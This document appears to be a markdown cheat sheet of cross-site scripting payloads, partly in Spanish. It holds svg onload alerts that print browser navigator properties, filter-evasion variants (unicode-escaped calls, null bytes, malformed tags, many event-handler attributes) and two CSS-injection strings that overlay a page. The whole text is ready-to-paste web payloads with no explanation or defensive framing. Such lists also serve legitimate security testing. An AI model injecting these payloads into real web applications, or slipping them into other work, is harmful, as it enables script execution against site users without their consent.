 
## xss javascript navigator  

```
<svg onload=alert(navigator.appCodeName)>
<svg onload=alert(navigator.appName)>
<svg onload=alert(navigator.appVersion)>
<svg onload=alert(navigator.cookieEnabled)>
<svg onload=alert(navigator.language)>
<svg onload=alert(navigator.onLine)>
<svg onload=alert(navigator.platform)>
<svg onload=alert(navigator.userAgent)>


```



### Muchos mas

```
<script%20~~~>\u0061\u006C\u0065\u0072\u0074``</script%20~~~>
<\x3Cscript>javascript:alert(1)</script>
'`"><\x00script>javascript:alert(1)</script>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video> 
<body src=1 href=1 onerror="javascript:alert(1)"></body>
<image src=1 href=1 onerror="javascript:alert(1)"></image>
<object src=1 href=1 onerror="javascript:alert(1)"></object>
<script src=1 href=1 onerror="javascript:alert(1)"></script> 
<svg onResize svg onResize="javascript:javascript:alert(1)"></svg onResize>
<title onPropertyChange title onPropertyChange="javascript:javascript:alert(1)"></title onPropertyChange> <iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad> 
<body onMouseEnter body onMouseEnter="javascript:javascript:alert(1)"></body onMouseEnter> 
<body onFocus body onFocus="javascript:javascript:alert(1)"></body onFocus>
<frameset onScroll frameset onScroll="javascript:javascript:alert(1)"></frameset onScroll> 
<script onReadyStateChange script onReadyStateChange="javascript:javascript:alert(1)"></script onReadyStateChange>
<html onMouseUp html onMouseUp="javascript:javascript:alert(1)"></html onMouseUp>
<body onPropertyChange body onPropertyChange="javascript:javascript:alert(1)">
</body onPropertyChange> <svg onLoad svg onLoad="javascript:javascript:alert(1)">
</svg onLoad> <body onPageHide body onPageHide="javascript:javascript:alert(1)"></body onPageHide> 
<body onMouseOver body onMouseOver="javascript:javascript:alert(1)"></body onMouseOver> 
<body onUnload body onUnload="javascript:javascript:alert(1)">
```

# Css injection

```
1"Style="position:fixed;top:350;left:400;font-size:99999px;"OnPointerEnter="new class extends confirm`_Y000!_`{}"

<b/style=position:fixed;top:0;left:0;font-size:200px>XSS<!--

```
